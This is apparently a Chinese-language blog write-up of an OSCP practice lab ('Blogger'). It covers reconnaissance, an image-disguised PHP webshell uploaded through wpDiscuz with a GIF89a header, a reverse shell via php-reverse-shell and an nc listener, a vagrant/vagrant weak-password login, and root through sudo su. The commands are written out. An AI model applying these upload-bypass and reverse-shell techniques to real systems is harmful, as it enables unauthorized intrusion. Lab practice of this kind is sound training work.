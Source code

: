 # 原创
：  从WEB到内网&&文件上传&&内网弱口令&&sudo提权 ------- 打靶经验分享

# 从WEB到内网&amp;&amp;文件上传&amp;&amp;内网弱口令&amp;&amp;sudo提权 ------- 打靶经验分享

OSCP靶机-------Blogger<br/> 今天来打一个OSCP的靶机，难度偏高，包含了端口探测，服务探测，ssh弱口令，CMS识别，文件上传绕过，nc反弹shell，sudo提权等等…靶场难度中等偏高，需要收集两个flag，一个flag低权限shell就可以获取，第二个要提权后才可以获取。希望大家看完可以有所收获。

### 启动环境

启动VPN：openvpn universal.ovpn<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3c382df24039441980d36576077d1f6e.png"/><br/> 攻击机IP为：192.168.45.181<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3d405f622cca4509b103e652f21824e9.png"/><br/> 目标靶机IP为： 192.168.187.217

### 信息收集

**1.端口**<br/> nmap扫描端口<br/> `nmap --min-rate 10000 -p- 192.168.187.217`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/482a0eb4e63a427d8f453b829c980067.png"/><br/> 只有22,80两个端口<br/> 22-ssh 80-http<br/> **2.端口测试**<br/> **2.1** 22-ssh<br/> 手工弱口令登一下试试。<br/> `ssh root@192.168.187.217 -p 22`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/8eee0dd9b49f4851bc8d4533ae203dd4.png"/><br/> ssh公钥有问题，无法继续。那么想用hydra爆破也就行不通了。<br/> **2.1** 80-http<br/> 访问192.168.187.217:80<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ac5957a072b14e44baf9081e73ba064d.png"/><br/> 看上去很精致，应该黑丝有cms，直接查一下。<br/> `whatweb http://192.168.187.217:80 `<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/56216dfc0b224083baccd94bb58270df.png"/><br/> 匪夷所思，是blogger么？msf搜一下。<br/> `msfconsole`<br/> `searchsploit Blogger`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/89bac64f25c34bdda4d60060e39963e4.png"/><br/> 没有。换思路，看一下源码：<br/> `curl http://192.168.187.217:80`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ed4a7c3070c5437c900b8328c3861229.png"/><br/> 没什么有用的信息。那就dirsearch扫一下目录。<br/> `dirsearch -u http://192.168.187.217`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/87caed7d6b6b47ac8925cce2545fbb75.png"/><br/> 看一下assets。<br/> 访问192.168.187.217:80/assets<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/25bb067ce3924a95b5ceda1d6aa4f28e.png"/><br/> 是一个目录遍历。就是这个网站的一些css、js、fonts图标等等。<br/> 不过在fonts中有一个blog文件。看上去在记录owasp top10。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b89af2034d3e41a6902ce27c7542641c.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/e63464d176a54235baf9fba6521c377e.png"/><br/> 随便点点，发现会跳转到一个域名blogger.thm。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/d56d5bdee0b2441694aaa1cc127899fb.png"/><br/> 看上去要绑定hosts:<br/> `vim /etc/hosts`<br/> 然后在最后加上<br/> `192.168.187.217 blogger.thm`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f3f28a4ee59443b398af8886cff98c9b.png"/><br/> 再次访问刚才的blog站点。正常咯。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f5cb037bcb7e4ec2b70e8efe34fb0522.png"/><br/> 看一下cms：<br/> `whatweb http://blogger.thm/assets/fonts/blog/`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/48d6e2427ac4485e9a51adc92a5dc34b.png"/><br/> cms是WordPress 4.9.8，搜一下exp看看。<br/> `msfconsole`<br/> `searchsploit WordPress 4.9.8`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/49b38fe3c53442bc849b4edd4be937d5.png"/><br/> 全是插件，也没有rce，wp老漏洞大户了，肯定有专门的wp扫描：wpscan<br/> kali里就有，直接用：<br/> `wpscan --url http://blogger.thm/assets/fonts/blog/`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/fe5ddc15983f4e7db9fbc1e74df88214.png"/><br/> 出洞了，http://blogger.thm/assets/fonts/blog/wp-content/uploads/有文件上传。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/28a6f36a0c764918866a476de4d015d2.png"/><br/> 还是文件遍历，找不到什么随便点点。发现一个php<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/42bb9c9c0d274716b99d0c1ef0fd0cca.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f0f3cf5e54fb4712bcf27b4fe3ae7736.png"/><br/> 点进去发现了gif的文件头。应该网站里是有一个上传图片的地方。慢慢找一下。在wp的页面，owasp top10中有上传图片的地方。<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2d31ef9bd0144eff942d2f3a7e4232aa.png"/><br/> 这应该是wordpress的组件，源代码定位一下。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/58ba6b7460be475891b23e1697f24b2f.png"/><br/> 调用的wpdiscuz的组件，抓一下网络的包。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/70f2a65270084cbba73b40f693d2f246.png"/><br/> 现在确认了版本信息：wpdiscuz 7.0.4<br/> msf搜索exp<br/> `msfconsole`<br/> `searchsploit wpdiscuz 7.0.4`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3dd26253289e4afb891696f94de6f7ab.png"/><br/> search wpdiscuz 7.0.1<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/8c3456e364884f7c94ba4e2a7a236cc0.png"/><br/> use 0<br/> show options<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/0d8e3e86ce754c8d8c3cfc73e46ef5e5.png"/><br/> set lhost 192.168.45.181<br/> set rhosts 192.168.187.217<br/> set blogpath /assets/fonts/blog/?p=29<br/> run<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/7145e186da1744f388bed5332dd66978.png"/><br/> 失败。。。。回去试试手工文件上传。<br/> 经过测试只能上传gif文件，先制作一个图片马。<br/> copy 1.jpg/a +shell.php/b shell.jpg<br/> 1.jpg为正常的图片，尽可能选择小点的图片，shell.php 为 php一句话木马。<br/> 准备上传，打开burpsuite，抓包改一下文件头看能否上传。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/bcb19701cda5498cb5448cf2338f94b5.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/041ec66761c0436292e546704102faa8.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/671cb1c99f884a8bb1dff9f2266bcfa8.png"/><br/> 可以看到上传的位置，直接蚁剑链接。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/157f1bfd113a4a5b9293639159056735.png"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/526b41d6beff4f2bab5b5e205664446d.png"/><br/> 有shell了！

### 内网渗透

利用python获取交互shell<br/> `python -c "import pty;pty.spawn('/bin/bash')";`<br/> 获取flag:<br/> `find / -name local.txt 2&gt;/dev/null`<br/> `cat /home/james/local.txt`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4371465c2d9749fa9303bda279b78a1a.png"/>

### 提权

1.sudo提权<br/> `sudo -l`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/373b0a273d5f4fd385a748543968b290.png"/><br/> 2.suid提权<br/> `find / -perm -u=s -type f 2&gt;/dev/null`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/84b0081fa3634274a455f73fa11d4072.png"/><br/> 没合适的。<br/> 3.suid-getcap提权<br/> `/usr/sbin/getcap -r / 2&gt;/dev/null`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c1ae0590099b4eceb461b79abcf680e8.png"/><br/> 4.Cron job提权<br/> `cat /etc/crontab`<br/> 查找定时任务。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2ad525d1895f42548bdf2d0c9f973e54.png"/><br/> 5.内核overlayfs提权<br/> `lsb_release -a` 看看发行版本<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/f6316ed8c551463a94eb4a377765d7d6.png"/><br/> Ubuntu 16.04.7 LTS 符合<br/> `uname -a`看看内核版本<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/0a17ddc766e74ab7aa03c7ec16d93b2c.png"/><br/> 内核版本 4.4.0-206 不符合

### 内网信息收集

看一下用户：<br/> `ls -al /home`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4055eab289414f978cfa81b064b6e834.png"/><br/> 看一下是否有隐藏文件<br/> `ls -al /home/james`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/bc5f479892b34f42882b8a9acebb6b7c.png"/><br/> 内网用户密码弱口令爆破，vagrant/vagrant成功了<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a9bc119a32b24d5e921e1595dca29101.png"/><br/> 但蚁剑好像不太对劲。<br/> 这蚁剑的一句话shell就不太行啊，重新拿shell。用kali的webshell：<br/> cp一个出来<br/> `sudo cp /usr/share/webshells/php/php-reverse-shell.php exp`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/566e1a0a899f4cc889450b371c76f31d.png"/>

改后缀。<br/> `cp php-reverse-shell.php ./shell.jpg`<br/> 修改监听ip和端口：<br/> `vim php-reverse-shell.php`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c1b3957b06884f6eb4cc8fab8a6ad949.png"/><br/> nc开启监听：<br/> `nc -lvvp 1234`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/c46fe49a4cd340bdb1bc084780d05de6.png"/><br/> 上传该文件，burpsuite抓包修改GIF89a头。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/41aa3c8361324964a383876c98a4c94d.png"/>

访问地址之后成功getwebshell<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/0e1fb1dba8404f93be00b9aa1104d6dd.png"/>

### 二次提权

重复之前的操作，vagrant弱口令登录。<br/> 1.sudo提权<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/496828ebaacf4420bdb143ca503d54da.png"/><br/> 存在(ALL) NOPASSWD: ALL<br/> su提权<br/> `sudo su`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/1faeb65af3ba4b989815a652dad31595.png"/><br/> 成功提权<br/> 获取flag2：`cat /root/proof.txt`<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ea83a1b2d7514df2b379f1b1fafd5311.png"/>

